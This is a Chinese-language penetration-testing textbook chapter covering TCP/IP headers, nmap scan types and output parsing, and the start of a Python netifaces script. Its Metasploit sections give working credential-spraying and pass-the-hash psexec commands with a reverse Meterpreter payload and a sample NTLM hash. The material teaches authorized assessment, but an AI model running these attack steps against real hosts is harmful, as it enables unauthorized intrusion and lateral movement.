# 第三章：使用 Nmap、Scapy 和 Python 识别目标

目标识别、网络监视和主动侦察都是您可能在评估环境的初始过程中看到的术语，它们可能互相替代，以描述这个过程。根据您使用的框架，如 PTES、自定义公司方法或其他行业标准，这些术语可能有不同的含义。重要的是要记住，您要查看批准范围内哪些主机是活动的，以及它们开放和响应的服务、端口和功能。

这些方面将决定您将从这里开始执行的活动。往往，这个阶段很短暂，评估员们立即开始利用他们看到对扫描作出响应的系统。新的评估员们不是有条不紊地研究可能的目标，而是立即投入其中。这在以前的工作中可能对他们有所帮助，因为他们很快就达到了目标，但是以这种方式进行评估还有其他影响，许多评估员并没有意识到。

他们可能会错过甚至更容易利用的系统。因此，如果您作为评估员没有看到这一点，而恶意行为者可能会看到，那么几个月后您可能会与客户进行一次令人不快的对话，讨论为什么您错过了这个漏洞。但请记住，渗透测试是时间的快照，环境总是在变化。环境中的控制和限制会调整，系统经常被重新分配。因此，在新的评估中可能会出现旧的漏洞。有条不紊意味着您可能会找到多个易于攻击的目标，这可能有助于您与客户建立良好的关系，并进而获得更多的工作。最重要的是，它将指出客户缺陷的根本原因，如果不加以修复，将继续产生控制失误。

评估员的最大影响来自于某人过早行动，这意味着他们可能开始利用组织中没有重要目的的系统。这意味着尽管他们破解了一个盒子，但它并没有通过网络传输任何价值，或者漏洞是不可利用的，因此可以被视为虚假阳性。因此，所有这些初始扫描都必须重新启动，浪费宝贵的时间，并增加了达成目标的机会。要了解如何扫描网络，首先必须了解网络帧、数据包、消息和数据报，以便可以操纵它们。

# 了解系统如何通信

有整套书籍专门讨论网络通信；本章将从一些非常基本的信息开始。如果您已经了解了这些数据，我鼓励您阅读一遍，以便复习一下，以防涵盖了一些新的或不同的细节。此外，还有一些关于标头组件和有效载荷大小的参考。这些是关于网络协议如何引用的具体信息，以及根据传输的数据和/或专业网络的差异，协议可能会有所不同。

当系统生成数据时，它通过系统的**传输控制协议**（**TCP**）/ **互联网协议**（**IP**）堆栈发送。这将数据打包成可以通过电线传输的形式。如果您听说过**开放系统互连**（**OSI**）模型，那么您就知道这是人们讨论系统如何处理数据的方式，而 TCP/IP 模型是系统实际操作的方式。

### 注意

每个系统都有一个 TCP/IP 堆栈，代表了 TCP/IP 模型的实现。重要的是要理解套接字是通过什么进行通信的。这是通过链接源和目的 IP 地址以及源和目的端口来完成的。

有一系列称为**临时端口范围**的端口。其范围因系统而异。这些端口也被称为动态端口，客户端用作套接字通信的源端口。它们也可以是服务器上已知服务的目的端口，前提是已知端口设计用于通信代理而不是目的地。诸如**文件传输协议**（**FTP**）之类的服务使用这种技术。您必须了解这一点，因为在尝试识别目标时，这些临时端口通常不需要被扫描，因为它们很少作为服务发起者。因此，它们是短暂的，并且仅与特定通信流相关联。

### 提示

请记住，管理员经常将已知服务隐藏在这些较高的端口范围内，以尝试创造服务不被识别的情况。这被称为**安全性通过混淆**。在扫描许多主机时，您可能需要避免扫描这些范围，因为这样会花费更多时间。如果您没有识别出许多服务，或者目标网络中有一些主机，您可能希望将这些包括在您的扫描范围内。

第 4 层标头代表 TCP 和**用户数据报协议**（**UDP**）标头以及特定 IP 的目标连接端口。第 3 层标头代表 IP 和**互联网控制消息协议**（**ICMP**）标头。第 2 层标头与帧标头、尾部和**地址解析协议**（**ARP**）有关。以下图表描述了帧生成的方法，用于两个系统之间的通信：



现在您已经看到了帧是如何从上到下生成的，让我们回到堆栈的顶部，看看如何将每个组件解构以获取数据。从那里开始，您可以从以太网帧开始。

## 以太网帧结构

帧是数据从主机到主机传输的方式，有许多组成帧的组件。您可以在维基百科和工程文件中阅读大量与帧相关的信息，但有一些事情您需要了解。帧通过硬件地址进行通信，这个地址被称为**媒体访问控制**（**MAC**）地址。无线网络和以太网网络的帧略有不同。此外，在帧的末尾是一个校验和。这是一个基本的数学检查，用于验证数据在传输过程中的完整性。以下是一个以太网帧的截图，目的地是 TCP 端口：



下一个截图代表了帧的内容，目的地是 UDP 端口：



### 以太网网络中的第 2 层

帧用于在广播域或默认网关内部的位置进行通信，或者在通过路由器之前进行通信。一旦通过路由器，下一个广播域将使用路由器硬件地址的接口。根据设备之间的通信协议，这些通常也是以帧的形式发送的。这一过程一遍又一遍地进行，直到帧到达由 IP 地址标识的目的地。这非常重要，因为如果您希望使用 Responder 或 Ettercap 等工具运行大多数**中间人**（**MitM**）攻击，您必须在广播域内，因为它们是第 2 层攻击。

### 无线网络中的第 2 层

无线攻击的概念非常相似，因为你必须在**服务集标识符**（**SSID**）或实际无线网络名称的范围内。你的通信方式会略有不同，这取决于无线网络的设计，但你会使用**接入点**（AP），这些 AP 由**基本服务集标识符**（**BSSIDs**）区分，这是 AP 的 MAC 地址的一个花哨的名称。

一旦你通过 AP 关联和认证进入网络，你就成为**基本服务集**（**BSS**）或企业网络的一部分，但受限于 AP 的范围。

如果你进入一个无线网络并与一个新的 AP 关联，因为信号更好，你将成为一个新的 BSS 的一部分。所有 BSS 都是**企业服务集**（**ESS**）的一部分；有趣的是，如果无线网络包含多个 AP，它就是一个 ESS。要能够与无线工程师进行通信，你必须了解，如果你在企业无线网络中，SSID 实际上被称为**企业 SSID**（**ESSID**）。现在你已经了解了第 2 层头部，现在是时候看看 IP 头部了。

### 注意

根据你正在阅读的网络文档，如果有一个**分布系统**（**DS**）和一个 AP，或者两个 AP 和一个 DS，就会创建一个 ESS。DS 只是一个连接 AP 的非无线网络的花哨名称。这很重要要记住，因为根据公司使用的产品品牌，术语可能略有不同。

## IP 数据包架构

IP 头部包含了通过使用 IP 地址进行通信所需的数据。这允许通信在广播域之外流动。下图显示了 IPv4 头部的一个示例：



你可能已经读到了 IPv4 即将结束，或者已经接近结束。嗯，你可能已经听说了，它的替代品是 IPv6。这种新的地址方案提供了大量的新主机地址，但正如你在两种头部类型的比较中所看到的，字段要少得多。需要知道的一件事是，与 IPv4 相比，IPv6 存在大量的漏洞。

有许多原因，但最重要的原因是，当组织将安全概念应用到他们的网络时，他们忘记了 IPv6 默认是支持的并且已经打开。这意味着当他们配置保护机制时，他们通常使用 IPv4 地址。如果 IPv6 被启用，而安全设备不知道网络中不同地址类型或与这些设备的关联，攻击可能会被忽略。

想象一下：假设你有一所房子，有前门和后门，只有前门有保安。房子有相同的物理地址，但你进入的方式完全不同，因为它有两个不同的门。这个安全概念非常相似，因此组织应该记住，如果不仔细考虑影响，IPv6 可能会给组织带来新的漏洞。下图显示了 IPv6 数据包结构的一个示例：



## TCP 头部架构

相对而言，TCP 数据包头部比 UDP 数据包头部要大得多。它必须容纳必要的排序、标志和控制机制。具体来说，数据包用于使用多种不同的标志进行会话建立和拆除。这些标志可以被操纵，以便攻击者从目标系统获得响应。

下图显示了一个 TCP 头部：



## 理解 TCP 的工作原理

在了解如何执行扫描和识别主机之前，您需要了解 TCP 通信流如何工作。TCP 是一种面向连接的协议，这意味着两个系统之间建立了一个会话。一旦这个会话建立，最初用于通信的信息就可以发送，当所有数据都发送完毕后，连接就会关闭。

### TCP 三次握手

TCP 握手也称为三次握手。这意味着在两个系统之间建立通信套接字之前，要在两个系统之间发送三条消息。这三条消息是 SYN、SYN-ACK 和 ACK。试图建立连接的系统从设置了`SYN`标志的数据包开始。回答系统返回一个设置了`SYN`和`ACK`标志的数据包。最后，发起连接的系统向原始目标系统返回一个设置了`ACK`标志的数据包。在旧系统中，如果通信链路未完成，可能会产生意外后果。如今，大多数系统足够智能，只需**重置**（**RST**）连接或优雅地关闭连接。

## UDP 标头结构

虽然 TCP 是一种面向连接的协议，UDP 是一种简单的无连接协议。正如您在下图中所看到的，UDP 数据包的标头要简单得多。这是因为 UDP 维护套接字的开销要少得多，与 TCP 相比。


## 了解 UDP 的工作原理

UDP 与监听端口建立通信流。该端口接受数据并将其根据需要传递到 TCP/IP 堆栈。虽然 TCP 用于同步和可靠的通信，但 UDP 不需要。多媒体演示是 UDP 通信的最佳示例。如果您正在观看电影，您不会在意可能丢失的数据包，因为即使它被重发，也没有意义在电影已经从最初的演示中移动之后再呈现它。现在您已经了解了系统通信的基础知识，您需要了解如何使用 Nmap 扫描技术使用不同的标志来收集所需的数据。

### 注意

每次扫描都有不同的目的，特定的标志会引发操作系统不同的响应，具体取决于它们是否按顺序接收。 nmap 端口扫描技术网页[`nmap.org/book/man-port-scanning-techniques.html`](http://nmap.org/book/man-port-scanning-techniques.html)简洁地详细介绍了这些信息。

# 了解 Nmap

如果有一种工具在大多数顶级和新的评估工具包中无处不在，那就是 nmap。您可能会发现不同的利用框架、Web 应用程序工具和其他偏好，但 nmap 是许多形式评估的基本工具。现在，这并不是说没有其他工具可以执行类似的功能；只是它们没有那么强大。这包括 AngryIP、HPing、FPing、NetScan、Unicorn scan 等工具。在所有这些工具中，只有两种显得显著不同，它们是 HPing 和 Unicorn scan。

我看到新的评估者在使用 nmap 时犯的最大错误是从同一主机同时执行多次扫描。他们没有意识到 nmap 使用主机操作系统的集成 TCP/IP 堆栈。这意味着任何额外的扫描都不会加快结果；相反，操作系统的 TCP/IP 堆栈必须同时处理多个会话。这不仅会减慢每次扫描的结果，还会增加错误，因为每个接收的数据包都可能影响结果，具体取决于它被哪个实例接收。

每个丢失的数据包都可以重新发送；这意味着扫描速度变慢，不仅因为重新发送的数据包数量，还因为不一致的结果和受限的 TCP/IP 堆栈。这意味着您只能对每个主机执行一次 nmap 扫描。因此，您必须尽可能高效。那么解决方案是什么？您可以使用 nmap 执行使用主机 TCP/IP 堆栈和 Unicorn 扫描的扫描，后者包含其自己的 TCP/IP 堆栈。事实上，通过高效使用 nmap 而不是同时使用多个工具，可以避免整个情况，后者会占用相对的时钟周期。

因此，除了处理驻留 TCP/IP 堆栈的限制外，还有一个限制，即 nmap 可以如何详细地操作数据包。HPing 提供了相对容易创建符合特定意图的自定义数据包的能力。尽管进行了这种自定义，但 HPing 只能有效地针对单个主机执行测试。如果多个主机需要相对自定义的简单 ping 测试，FPing 应该是首选工具。特别是因为 FPing 在**标准输出**（**STDOUT**）中产生的结果易于解析，以产生高效和有用的结果。这并不是说 nmap 不是一个高度可配置的工具，而是指出它不能替代经验丰富且聪明的评估者，每个工具都有其用武之地。因此，您需要了解其限制并根据需要进行补充。

## 输入 Nmap 的目标范围

Nmap 可以通过**标准输入**（**STDIN**）或文件输入目标。对于 CLI，可以通过多种方式进行，包括一系列 IP 地址和 IP 地址的**无类域间路由**（**CIDR**）表示法。对于文件，IP 地址可以通过提到的方法传递，包括 CIDR 表示法、IP 地址和范围，以及通过换行或回车分隔的 IP 列表。要通过 CLI 传递数据，用户只需在命令的末尾呈现该部分，如下所示：

```py
nmap -sS -vvv -p 80 192.168.195.0/24

```

对于文件输入方法，所需的只是`-iL`选项，后面跟着文件名：

```py
nmap -sS -vvv -p 80 -iL nmap_subnet_file

```

## 执行不同的扫描类型

Nmap 支持大量不同的扫描，但这里不会涵盖所有扫描。相反，我们将重点关注您在评估中最常使用的扫描。您主要使用的四种扫描是 TCP 连接扫描（也称为完全连接扫描）、SYN 扫描（也称为半开放或隐秘扫描）、ACK 扫描和 UDP 扫描。这些都是为未来脚本编写所需的知识水平而突出显示的。

### 注意

在进行外部测试时，您可能会被自动屏蔽或排斥。这可能是由客户的**互联网服务提供商**（**ISP**）或他们的**信息技术**（**IT**）团队执行的。您应该始终备份公共 IP 地址，以防您的主要 IP 地址被屏蔽。然后，避免做与之前被屏蔽的相同的事情。接下来，当您看到客户进行积极的屏蔽时，请记录下来，因为这种积极的活动突出了他们应该考虑继续投资的地方以及他们存在差距的地方。

### 执行 TCP 完全连接扫描

TCP 连接扫描是 nmap 中最响亮或最容易检测到的扫描之一，但它也是最适合消除误报的扫描之一。在早期，**事件响应（IR）**和安全团队非常关注外围的扫描，以便确定何时会遭受攻击。时代变了，外围产生的噪音变得过多，许多以前看到的访问被更先进的防火墙所减轻。今天，IR 团队再次关注外围，并利用他们看到的活动来相关事件和潜在的未来尝试进入网络，或者跟踪已经执行的攻击相关的后续行动。

TCP 连接扫描可能提供最准确的结果，但自动拒绝机制通常会阻止扫描源在**互联网服务提供商**（**ISP**）处。要执行 TCP 扫描，你只需使用`-sT`指示相关的扫描类型，如下所示：

```py
nmap -sT -vvv -p 80 192.168.195.0/24

```

### 注意

我评估过许多组织，只能使用完全连接扫描进行扫描，因为如果执行 SYN 扫描，它们会立即拒绝连接。诀窍在于了解你的目标及其环境的先进程度。在预约阶段，很多情况都可以确定。

### 执行 SYN 扫描

SYN 扫描是一种 TCP 扫描，它可能是你在参与中运行的最突出的扫描。原因是它比 TCP 连接扫描快得多，而且更安静。然而，它不适用于极老或敏感设备类型的环境。虽然大多数现代系统在及时收到 ACK 响应后关闭连接时不会有问题，但其他系统可能会出现问题。过去曾多次出现这样的情况，如果连接未完成，一些传统系统可能会出现**拒绝服务**（**DoS**）的情况。今天，这种情况已经很少见，但始终要考虑客户的担忧，因为他们比你更了解自己的环境。

SYN 扫描只需使用`-sS`标志来执行，如下所示：

```py
nmap -sS -vvv -p 80 192.168.195.0/24

```

### 执行 ACK 扫描

ACK 扫描是三种 TCP 扫描类型中最罕见的，它可能并不像你想象的那样直接有用。让我们看看在什么情况下你会使用 ACK 扫描。它是一种慢速扫描，所以如果 SYN 或 TCP 扫描不能提供你需要的结果，你会使用它。Nmap 今天非常智能；通常你不需要执行不同类型的扫描来验证你正在攻击的目标类型。因此，你可能会尝试识别一个完全连接扫描无法使用的资源。这意味着你可能无法连接到主机进行进一步的攻击，因为你无法完成三次握手。

那么 ACK 扫描在哪里有用呢？人们经常问这个问题，答案是“防火墙”。ACK 扫描非常适合映射防火墙规则集。一些系统对 ACK 扫描的反应非常奇怪，并提供额外的数据，所以当你执行 ACK 扫描时，确保你的系统上运行着`tcpdump`。以下是如何执行 ACK 扫描的示例。运行以下命令：

```py
nmap -sA -vvv -p80 192.168.195.0/24

```

### 执行 UDP 扫描

你会看到大量的博客文章、书籍和几个培训活动强调 UDP 是一个经常被忽视的协议。在未来的章节中，我们将强调这对一个组织来说是多么危险。UDP 扫描非常慢，由于 UDP 和 TCP 一样有很多端口，扫描它们需要大量的时间。此外，UDP 扫描——用更好的术语来说——是虚假的。它们经常报告一些东西是被过滤/开放的，这基本上意味着它不知道。

在非常大的环境中，这可能会令人恼火。它也没有完全的能力来获取大多数 UDP 端口服务信息。最常见的端口有特别打包的扫描数据，这使得 nmap 能够确定端口是否真的开放以及有什么服务，因为服务并不总是在默认端口上。当服务移至 UDP 端口时，与 TCP 扫描相比，nmap 返回的默认扫描数据会受到影响，影响并不大。

要执行 UDP 扫描，只需将扫描标志设置为`-sU`，如下所示：

```py
nmap -sU -vvv -p161 192.168.195.0/24

```

## 执行组合 UDP 和 TCP 扫描

现在，您知道如何运行主要扫描，但是连续运行 TCP 和 UDP 扫描可能需要很长时间。为了节省时间，您可以通过针对两种类型的扫描的端口来组合资源的扫描。但是要明智地使用，如果在此扫描中使用了大量端口，将需要很长时间才能完成。因此，此扫描非常适合针对您可以用来识别易受攻击的资源的顶级端口，例如以下端口：

| 服务类型 | 常见端口号 | 协议 | 服务 |
| --- | --- | --- | --- |
| 数据库 | `1433` | TCP | Microsoft 结构化查询语言（MSSQL）服务器 |
| `1434` | UDP | SQL Server 浏览器服务 |
| `3306` | TCP | MySQL |
| `5433` | TCP | PostgresSQL 服务器 |
| 远程文件服务 | `2049` | TCP | 网络文件服务（NFS） |
| `111` | TCP | Sun 远程过程调用（RPP） |
| `445` | TCP | 服务器消息块（SMB） |
| `21` | TCP | 文件传输协议（FTP） |
| 远程管理界面 | `3389` | TCP | 远程桌面协议（RDP） |
| `22` | TCP | 安全外壳（SSH） |
| `23` | TCP | Telnet |
| `6000 到 6005` | TCP | x11 |
| `5900` | TCP | 虚拟网络连接器（VNC） |
| `9999` | TCP | 用于遗留网络设备的已知远程管理界面 |
| 接口和系统/用户枚举服务 | `25` | TCP | 发送邮件传输协议（SMTP） |
| `79` | TCP | Finger |
| `161` | UDP | 简单网络管理协议 |
| Web 服务器 | `80、443` | TCP | Web 服务 |
| `8080、8443 和 8888` | TCP | Tomcat 管理页面，JBoss 管理页面，系统管理面板 |
| **虚拟专用网络**（**VPN**）管理详细信息 | `500` | UDP | 互联网安全关联和密钥管理协议（ISAKMP） |

要执行组合扫描，只需标记要使用的两种类型的扫描，并逐个列出要为每种协议扫描的端口。这是通过提供`-p`选项，后跟`U：`用于 UPD 端口和`T：`用于 TCP 端口来完成的。请参阅以下示例，仅为简洁起见突出显示了一些端口：

```py
nmap -sS -sU -vvv -p U:161,139 T:8080,21 192.168.195.0/24

```

## 跳过操作系统扫描

我见过许多新的评估者对 nmap 的操作系统扫描充满了愉快的兴奋。这是我团队成员知道的识别不经常评估企业环境的人的最快方法之一。原因如下：

+   操作系统扫描非常吵闹

+   它可能会使遗留系统崩溃，因为它执行链接扫描以确定响应并验证系统类型

+   对于旧的或遗留系统，可能会造成破坏

+   过去，某些打印机可能会出现问题，包括打印浸泡墨水的黑色页面，直到它们被关闭或用完纸

有经验的评估者不使用这种扫描的最大原因是因为它在今天提供的价值很小。你可以用其他方法更快、更容易、更安静地识别这种扫描提供的细节。例如，如果你看到端口`445`打开，那么它要么是运行 Samba 变体的系统，要么是 Windows 主机——通常是这样。学习每个操作系统的端口、服务标签和版本将比这种扫描更好地识别操作系统和版本。此外，如果是一种你无法通过这种方法识别的系统，那么 nmap 也不太可能做到，当然这取决于你的技能水平。

### 提示

随着经验的积累，你会学会如何使用 Responder、tcpdump 和 Wireshark 等工具被动地识别活动主机。这意味着你不需要扫描主机，实质上，你更加安静。这也更好地模拟了真正的恶意行为者。

## 不同的输出类型

Nmap 有四种输出类型，根据情况它们非常有用。它们可以输出到屏幕，`STDOUT`，或者三种不同的文件类型。这些文件类型有不同的目的和优势。有 nmap 输出，看起来和`STDOUT`一样，但是在文件中；这是用`-oN`来实现的。然后，还有`Grepable`和可扩展标记语言（XML）输出，如下所述。所有输出可以使用`-oA`标志同时产生。

### 理解 Nmap Grepable 输出

有 Grepable 输出，说实话，对于提取数据来说并不是那么好。它可以提供一种快速、简单地提取数据组件来构建列表的方法，但是要用`grep`、`sed`和`awk`来正确解析它，你实际上必须插入字符来表示数据应该被提取的位置。Grepable 输出可以通过标记`-oG`来执行。 

当你有一个 Grepable 文件时，解析数据的最有用的方法是根据它的某些组件。通常你要寻找与特定服务相关的开放端口。因此，你可以通过执行以下命令提取这些细节：

```py
cat nmap_scan.gnmap | grep 445/open/tcp | cut -d" " -f2 >> /root/Desktop/smb_hosts_list

```

这个例子展示了一个 Grepable 文件被推送到`STDOUT`，然后被管道传输到`grep`，`grep`搜索开放的`445 端口`。这可以通过`grep`和 cut 来完成，但是这样很容易阅读和理解。一旦找到端口，cut 提取 IP 地址并将它们推送到一个名为`smb_hosts_lists`的平面文件中。如果你查看`nmap_scan.gnmap`文件，你可能会看到包含以下细节的行：

```py
Host: 192.168.195.112 () Ports: 445/open/tcp/

```

正如你所看到的，这行包含`445/open/tcp`的细节，这使我们能够针对特定行进行目标定位。然后我们使用空格作为分隔键进行切割，并选择第二个字段，如果你通过空格计算数据字段，你会找到 IP 地址。这种技术非常常见，对于快速识别 IP 地址开放的服务或端口，并基于服务或端口创建多个平面文件非常有用。

正如第一章中所示，*理解渗透测试方法论*，你可以使用 Metasploit 模块中的`rhosts`字段来通过 CIDR 表示法或范围来定位主机。当你创建平面文件时，你可以使用 Metasploit 模块来引用平面文件而不是目标主机列表。要运行 Metasploit 控制台，执行以下命令：

```py
msfconsole

```

如果你正在从命令行运行 Metasploit Professional，使用以下命令：

```py
msfpro

```

现在看看这个例子，在这个例子中，我们将尝试并查看我们之前破解的密码是否适用于网络中其余主机：

```py
use auxiliary/scanner/smb/smb_login
set SMBUser administrator
set SMBPass test
set SMBDomain Workgroup
set RHOSTS file:/root/Desktop/smb_hosts_list
run

```

`use`命令选择要使用的模块——在本例中是`smb_login`模块，用于验证**Server Message Block**（**SMB**）凭据。`SMBUser`设置选择要对其执行此攻击的用户名。`SMBPass`设置选择要在此模块中使用的密码。`SMBDomain`字段允许您设置组织的域。`run`命令执行辅助模块。在早些年，您必须使用`run`来执行辅助模块和利用模块。如今，这些实际上是可以互换的，除了需要`run`的后期利用模块，如[`www.offensive-security.com/metasploit-unleashed/windows-post-gather-modules/`](https://www.offensive-security.com/metasploit-unleashed/windows-post-gather-modules/)中所强调的。

### 提示

如果您使用本地帐户进行攻击，应将域设置为工作组。当攻击域帐户时，应将域设置为组织的实际域。

Metasploit Professional 是一种帮助优化渗透测试工作的工具，它具有 Web 图形用户界面（GUI）。Metasploit pro 提供了许多出色的功能，但如果您需要通过由防火墙保护的多个网络层进行枢纽，控制台是最佳选择。要了解如何执行自动枢纽，您可以在[`www.offensive-security.com/metasploit-unleashed/pivoting/`](https://www.offensive-security.com/metasploit-unleashed/pivoting/)找到详细信息。要了解如何执行手动枢纽，请参阅[`pen-testing.sans.org/blog/2012/04/26/got-meterpreter-pivot`](https://pen-testing.sans.org/blog/2012/04/26/got-meterpreter-pivot)，其中涵盖了基于端口的枢纽、手动路由和 SOCKS 代理。

这种攻击方法非常常见；您找到凭据，确定凭据可能适用的服务，然后构建平面文件以针对主机。接下来，您引用这些平面文件来检查主机是否存在漏洞。一旦验证了这些主机的脆弱性，您就可以使用**Pass-the-Hash**（**PtH**）利用它们，使用**Process Execution**（**PSEXEC**）攻击（如果您有哈希）或标准凭证 PSEXEC，如下面的代码所示：

### 提示

PtH 是一种利用与系统在网络上进行身份验证的 Windows 本机弱点相关的攻击。与要求挑战/响应身份验证方法不同，哈希密码可以直接传递到主机。这意味着您不必破解**本地区域网络管理器**（**LM**）或**新技术 LM**（**NTLM**）哈希。许多 Metasploit 模块可以使用 SMB 服务的凭据或哈希。

```py
msfconsole
use exploit/windows/smb/psexec
set SMBUser administrator
set SMBPass test
set SMBDomain Workgroup
set payload windows/meterpreter/reverse_tcp
set RHOST 192.168.195.112
set LPORT 443
exploit -j

```

`payload`命令选择要在主机上投放并执行的有效负载。`reverse_tcp`有效负载拨回攻击盒以建立连接。如果是`bind`有效负载，攻击盒在执行后将直接连接到监听端口。`RHOST`和`LPORT`表示我们要连接的目标主机和攻击盒上要监听返回通信的端口。`exploit -j`运行漏洞利用，然后将结果放到后台，这样可以让您专注于其他事情，并在需要时使用`session -i <session number>`返回会话。请记住，您不需要破解凭据来执行`smb_login`或`psexec`；相反，您可以使用 PtH。在这种情况下，`smb_login`命令的文本将如下代码所示：

### 注意

在执行过程完成时，放在盒子上的所有有效负载都将被删除。如果执行过程中断，有效负载可能会留在系统中。更安全的环境使用监视进程的工具，如果这些工具未正确配置以删除检测到的进程的生成器，则可能会出现这种情况。

```py
msfconsole
use auxiliary/scanner/smb/smb_login
set SMBUser administrator
set SMBPass 01FC5A6BE7BC6929AAD3B435B51404EE:0CB6948805F797BF2A82807973B89537
set SMBDomain Workgroup
set RHOSTS file:/root/Desktop/smb_hosts_list
run

```

以下配置将用于`psexec`命令：

```py
msfconsole
use exploit/windows/smb/psexec
set SMBUser administrator
set SMBPass 01FC5A6BE7BC6929AAD3B435B51404EE:0CB6948805F797BF2A82807973B89537
set SMBDomain Workgroup
set payload windows/meterpreter/reverse_tcp
set RHOST 192.168.195.112
set LPORT 443
exploit -j

```

现在您已经了解了`nmap grepable`输出的目的和好处，让我们来看看 XML 输出的好处。在继续之前，有一点需要注意，这将帮助您了解 XML 的好处。看一下`nmap grepable`输出的行。您可以看到用于区分数据字段的特殊字符非常少；这意味着您可以轻松提取只有小部分信息。要获取更大的数量，您必须使用`sed`和`awk`插入分隔符。这是一个痛苦的过程，但幸运的是，您手头上有解决方案——XML 输出。

### 理解 Nmap XML 输出

XML 构建数据树，使用子父组件来标记数据集。这允许在遍历列出父子关系的树之后，使用特定标签抓取数据进行轻松和直接的解析。最重要的是，由于这一点，XML 输出可以被其他工具导入，比如 Metasploit。您可以使用`-oX`选项轻松地只输出 XML。这些好处的更多细节将在以后的章节中进行介绍，特别是在第九章中使用 Python 解析 XML 时，*使用 Python 自动化报告和任务*，以帮助自动生成报告数据。

## Nmap 脚本引擎

Nmap 有许多脚本，为评估者提供独特的功能。它们可以帮助识别易受攻击的服务、利用系统或与复杂的系统组件交互。这些脚本是用一种叫做 Lua 的语言编写的，这里不会涉及。这些脚本可以在 Kali 的`/usr/share/nmap/scripts`中找到。可以使用`--script`选项调用这些脚本，然后以逗号分隔的列表形式调用。在针对目标执行脚本之前，请确保您知道每个脚本的作用，因为它可能对目标系统产生意外后果。

### 注意

有关`nmap`脚本的更多详细信息，请访问[`nmap.org/book/man-nse.html`](http://nmap.org/book/man-nse.html)。可以在[`nmap.org/nsedoc/`](http://nmap.org/nsedoc/)找到有关`nmap`脚本的具体细节，以及它们的目的和类别关联。

脚本可以按其所属的类别调用，或者从您不希望它们所属的类别中移除。例如，您可以看到以下命令运行`nmap`工具，使用所有默认或安全脚本，这些脚本不以`http-`开头：

```py
nmap --script "(default or safe) and not http-*" <target IP>

```

到目前为止，您应该已经对如何使用 nmap 以及其中的功能有了相当好的了解。让我们来看看如何高效使用 nmap。这是因为渗透测试的最大限制因素是时间，在这段时间内，我们需要简明地识别易受攻击的目标。

## 高效使用 Nmap 扫描

Nmap 是一个很棒的工具，但是您可能会受到网络设计不佳、大量目标集和不受限制的端口范围的限制。因此，高效的关键是限制您扫描的端口数量，直到您知道哪些目标是活动的。这可以通过针对具有活动设备的子网并仅扫描这些范围来完成。这样做的最简单方法是查找网络中活动的默认网关。因此，如果您看到您的默认网关是`192.168.1.1`，那么在这个 C 类网络中，其他默认网关可能在诸如`192.168.2.1`之类的区域是活动的。对默认网关进行 ping 操作是一个有点吵闹的过程，但它通常与大部分正常的网络流量一致。

Nmap 具有内置功能，可以使用`--top-ports`选项来定位统计上更常见的端口，然后跟上一个数字。例如，您可以使用`--top-ports 10`选项查找前 10 个端口。这些统计数据是通过对面向互联网的主机进行长期扫描发现的，这意味着统计数据是基于互联网上可能暴露的内容。因此，请记住，如果您正在进行内部网络评估，此选项可能无法提供预期的结果。

作为评估员，您经常会收到一系列要评估的目标。有时，这个范围非常大。这意味着您需要尝试通过查看哪些位置的默认网关是活动的来确定活动段。每个活动的默认网关和相关子网将告诉您应该扫描的位置。因此，如果您的默认网关是`192.168.1.1`，您的子网是`255.255.255.0`或`/24`，您应该检查从`192.168.2.1`到`192.168.255.1`的其他默认网关。当您 ping 每个默认网关时，如果它有响应，您就知道该子网中可能有活动主机。这可以很容易地通过众所周知的 bash `for`循环来完成：

```py
for i in `seq 1 255`; do ping -c 1 192.168.$1.1 | tr \\n ' ' | awk '/1 received/ {print $2}'; done

```

这意味着您必须查找您的默认网关地址和子网，以验证您正在使用的每个接口的详细信息。如果您能够使用 Python 脚本自动化查找这些系统详细信息的过程会怎样呢？要开始这个旅程，请使用`netifaces`库提取接口的详细信息。

### 使用 netifaces 库确定您的接口详细信息

我们演示了如何使用 Python 脚本在第二章中找到接口详细信息，*Python 脚本的基础*。它旨在找到任何系统的详细信息，而不考虑库，但它只能根据提供的接口名称列表找到地址。此外，它是一个不太严密的脚本。相反，我们可以使用 Python 的`netifaces`库来遍历地址并发现详细信息。

此脚本使用多个函数来完成特定任务。包括的函数有`get_networks`、`get_addresses`、`get_gateways`和`get_interfaces`。这些函数确切地做你期望它们做的事情。第一个函数`get_interfaces`找到该系统的所有相关接口：

```py
def get_interfaces():
    interfaces = netifaces.interfaces()
    return interfaces
```

第二个函数确定网关并将其作为字典返回：

```py
def get_gateways():
    gateway_dict = {}
    gws = netifaces.gateways()
    for gw in gws:
        try:
            gateway_iface = gws[gw][netifaces.AF_INET]
            gateway_ip, iface = gateway_iface[0], gateway_iface[1]
            gw_list =[gateway_ip, iface]
            gateway_dict[gw]=gw_list
        except:
            pass
    return gateway_dict
```

第三个函数确定每个接口的地址，包括 MAC 地址、接口地址（通常是 IPv4）、广播地址和网络掩码。所有这些详细信息都是通过传递接口名称的函数来获取的：

```py
def get_addresses(interface):
    addrs = netifaces.ifaddresses(interface)
    link_addr = addrs[netifaces.AF_LINK]
    iface_addrs = addrs[netifaces.AF_INET]
